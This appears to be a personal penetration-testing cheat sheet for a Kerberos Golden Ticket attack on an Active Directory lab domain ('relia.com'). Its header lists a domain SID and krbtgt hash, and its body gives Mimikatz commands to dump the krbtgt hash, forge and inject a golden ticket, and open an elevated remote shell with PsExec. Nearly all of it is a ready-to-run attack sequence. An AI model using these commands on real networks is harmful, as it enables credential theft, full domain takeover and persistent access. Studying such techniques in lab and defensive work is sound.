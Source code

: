 ```yaml
---
IP_KALI: 192.168.45.155
USER: Administrator
DOMAIN: relia.com
SID: " S-1-5-21-3972710054-930304531-4277621697"
KRBTGT: b896b5f9c769cd04d97008292674c1a5
---
```

Description:
- While Silver Tickets aim to forge a TGS ticket to access a _specific_ service, Golden Tickets give us permission to access the _entire_ domain's resources
- access to a Domain Admin's group account or to have compromised the domain controller itself to work as a persistence method

On mimikatz:
- Obtain the NTLM hash of the krbtgt account
```
lsadump::lsa /patch
```
- *On PS*: SID can be obtained with: 
```
whoami /user
```
- On Mimi: Purge previous tickets:
```
kerberos::purge
```
- *On Mimikatz* Generate golden ticket
	- kerberos::golden /user:<span id="USER"/>Administrator<span type="end"/> /domain:<span id="DOMAIN"/>relia.com<span type="end"/> /sid:<span id="SID"/> S-1-5-21-3972710054-930304531-4277621697<span type="end"/> /krbtgt:<span id="KRBTGT"/>b896b5f9c769cd04d97008292674c1a5<span type="end"/> /ptt
	- Launch command session:
		```
		misc::cmd
		```
		- Launch command shell which will now have elevated permissions
		```
		.\PsExec.exe \\[COMPUTERNAME] cmd.exe
		```
		
